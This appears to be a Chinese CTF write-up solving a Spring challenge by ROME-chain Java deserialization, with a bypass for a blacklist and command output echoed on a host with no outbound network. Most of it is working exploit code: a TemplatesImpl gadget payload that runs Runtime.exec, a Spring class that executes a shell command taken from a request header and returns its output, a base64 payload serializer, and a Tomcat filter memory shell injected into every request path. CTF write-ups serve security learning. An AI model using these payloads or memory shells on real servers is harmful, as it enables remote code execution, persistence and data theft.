


### 考点：

- rome反序列化
- 不出网回显

### 解题

```java
public class IndexController {
    public IndexController() {
    }

    @ResponseBody
    @RequestMapping({"/"})
    public String index() {
        return "Give you a cup of java, calm down";
    }

    @ResponseBody
    @RequestMapping({"/BackDoor"})
    public String BackDoor(@RequestParam(name = "ctf",required = true) String data) throws Exception {
        Set blacklist = new HashSet() {
            {
                this.add("java.util.HashMap");
                this.add("javax.management.BadAttributeValueExpException");
            }
        };
        Object object = null;
        byte[] b = Tool.base64Decode(data);
        InputStream inputStream = new ByteArrayInputStream(b);
        BlacklistObjectInputStream ois = new BlacklistObjectInputStream(inputStream, blacklist);

        try {
            object = ois.readObject();
        } catch (IOException var12) {
            var12.printStackTrace();
        } catch (ClassNotFoundException var13) {
            var13.printStackTrace();
        } finally {
            System.out.println("information:" + object.toString());
        }

        return "calm down....";
    }
}
```

看一下controller，给了一个反序列化的入口，设置了黑名单

我们查看一下pom.xml，熟悉的rome依赖



应该是打rome反序列化了，题目ban了俩类

```
java.util.HashMap
javax.management.BadAttributeValueExpException
```

正常情况下rome调用链是

```
 * TemplatesImpl.getOutputProperties()
 * NativeMethodAccessorImpl.invoke0(Method, Object, Object[])
 * NativeMethodAccessorImpl.invoke(Object, Object[])
 * DelegatingMethodAccessorImpl.invoke(Object, Object[])
 * Method.invoke(Object, Object...)
 * ToStringBean.toString(String)
 * ToStringBean.toString()
 * ObjectBean.toString()
 * EqualsBean.beanHashCode()
 * ObjectBean.hashCode()
 * HashMap<K,V>.hash(Object)
 * HashMap<K,V>.readObject(ObjectInputStream)
```

HashMap的作用是触发hashCode调用toString方法，注意到题目中给了toString方法，也就是说我们的调用链可以简化成

```
 * TemplatesImpl.getOutputProperties()
 * NativeMethodAccessorImpl.invoke0(Method, Object, Object[])
 * NativeMethodAccessorImpl.invoke(Object, Object[])
 * DelegatingMethodAccessorImpl.invoke(Object, Object[])
 * Method.invoke(Object, Object...)
 * ToStringBean.toString(String)
 * ToStringBean.toString()
```

根据rome链写个exp：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ToStringBean;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;


public class rome2 {
    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
        }
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static byte[] getTemplatesImpl(String cmd) {
        try {
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.makeClass("snakin");
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
            ctClass.setSuperclass(superClass);
            CtConstructor constructor = ctClass.makeClassInitializer();
            constructor.setBody("  Runtime.getRuntime().exec(\"" + cmd + "\");" );
            byte[] bytes = ctClass.toBytecode();
            ctClass.defrost();
            return bytes;
        } catch (Exception e) {
            e.printStackTrace();
            return new byte[]{};
        }
    }
    public static void main(String[] args) throws Exception {
        //恶意字节码
        byte[] code = getTemplatesImpl("calc");
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","test");
        setFieldValue(templates,"_class",null);
        setFieldValue(templates,"_bytecodes",new byte[][]{code});
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        ToStringBean toStringBean = new ToStringBean(Templates.class,templates);
        toStringBean.toString();
        byte[] aaa = serialize(toStringBean);
        System.out.println(Base64.getEncoder().encodeToString(aaa));
    }
}
```

本地能够通过，但是远程是不出网的，网上有spring不出网通用回显，大致原理是通过spring上下文还有反射来回显利用：

```
https://github.com/SummerSec/JavaLearnVulnerability/blob/master/Rce_Echo/TomcatEcho/src/main/java/summersec/echo/Controller/SpringEcho.java
```

需要注意的是加载恶意类我们需要将其继承AbstractTranslet

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.net.InetAddress;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.io.ObjectOutputStream;
import java.io.*;
import java.lang.reflect.Method;
import java.util.Scanner;

public class SpringEvil extends AbstractTranslet
{
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
    public SpringEvil() throws Exception{
        Class c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
        Method m = c.getMethod("getRequestAttributes");
        Object o = m.invoke(null);
        c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
        m = c.getMethod("getResponse");
        Method m1 = c.getMethod("getRequest");
        Object resp = m.invoke(o);
        Object req = m1.invoke(o); // HttpServletRequest
        Method getWriter = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
        Method getHeader = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader",String.class);
        getHeader.setAccessible(true);
        getWriter.setAccessible(true);
        Object writer = getWriter.invoke(resp);
        String cmd = (String)getHeader.invoke(req, "cmd");
        String[] commands = new String[3];
        String charsetName = System.getProperty("os.name").toLowerCase().contains("window") ? "GBK":"UTF-8";
        if (System.getProperty("os.name").toUpperCase().contains("WIN")) {
            commands[0] = "cmd";
            commands[1] = "/c";
        } else {
            commands[0] = "/bin/sh";
            commands[1] = "-c";
        }
        commands[2] = cmd;
        writer.getClass().getDeclaredMethod("println", String.class).invoke(writer, new Scanner(Runtime.getRuntime().exec(commands).getInputStream(),charsetName).useDelimiter("\\A").next());
        writer.getClass().getDeclaredMethod("flush").invoke(writer);
        writer.getClass().getDeclaredMethod("close").invoke(writer);
    }
}
```

那么将exp稍作修改：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ToStringBean;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;

public class rome2 {
    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
        }
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception {
        byte[] code = Files.readAllBytes(Paths.get("D:\\javacc\\SpringEvil.class"));
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","test");
        setFieldValue(templates,"_class",null);
        setFieldValue(templates,"_bytecodes",new byte[][]{code});
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        ToStringBean toStringBean = new ToStringBean(Templates.class,templates);
        byte[] aaa = serialize(toStringBean);
        System.out.println(Base64.getEncoder().encodeToString(aaa));
    }
}
```

之后传入参数命令执行即可




### 补充

#### rome链绕过黑名单

由于题目中给了toString方法，我们可以直接简化利用链而不使用hashmap。同时我们也可以利用Hashtable来替代HashMap。


#### 不出网回显之内存马

```java
public static class E{
    static {
        try {
            //这里采取Litch1师傅文章的思路，通过WebappClassLoader拿到StandardContext
            Class WebappClassLoaderBaseClz = Class.forName("org.apache.catalina.loader.WebappClassLoaderBase");
            Object webappClassLoaderBase = Thread.currentThread().getContextClassLoader();
            Field WebappClassLoaderBaseResource = WebappClassLoaderBaseClz.getDeclaredField("resources");
            WebappClassLoaderBaseResource.setAccessible(true);
            Object resources = WebappClassLoaderBaseResource.get(webappClassLoaderBase);
            Class WebResourceRoot = Class.forName("org.apache.catalina.WebResourceRoot");
            Method getContext = WebResourceRoot.getDeclaredMethod("getContext", null);

            //拿到StandardContext后就可以通过addFilterMap方法注入filter型内存马了
            StandardContext standardContext = (StandardContext) getContext.invoke(resources, null);

Filter filter = (servletRequest, servletResponse, filterChain) -> {


                        FileInputStream fis = new FileInputStream("/flag");
                        byte[] buffer = new byte[16];
                        StringBuilder res = new StringBuilder();
                        while (fis.read(buffer) != -1) {
                            res.append(new String(buffer));
                            buffer = new byte[16];
                        }
                        fis.close();

                        servletResponse.getWriter().write(res.toString());
                        servletResponse.getWriter().flush();

                    };
            FilterDef filterDef = new FilterDef();
            filterDef.setFilterName("A");
            filterDef.setFilterClass(filter.getClass().getName());
            filterDef.setFilter(filter);
            standardContext.addFilterDef(filterDef);
            FilterMap filterMap = new FilterMap();
            filterMap.setFilterName("A");
            filterMap.addURLPattern("/*");
            standardContext.addFilterMap(filterMap);
            standardContext.filterStart();

            //本地测试时取消下面这行可以帮助观察是否注入成功
            //System.out.println("injected");
        }catch (Throwable t){
            //t.printStackTrace();
        }
    }
}
```

参考：

https://www.anquanke.com/post/id/258575#h2-2

https://blog.csdn.net/RABCDXB/article/details/125576643

https://blog.csdn.net/rfrder/article/details/121203831

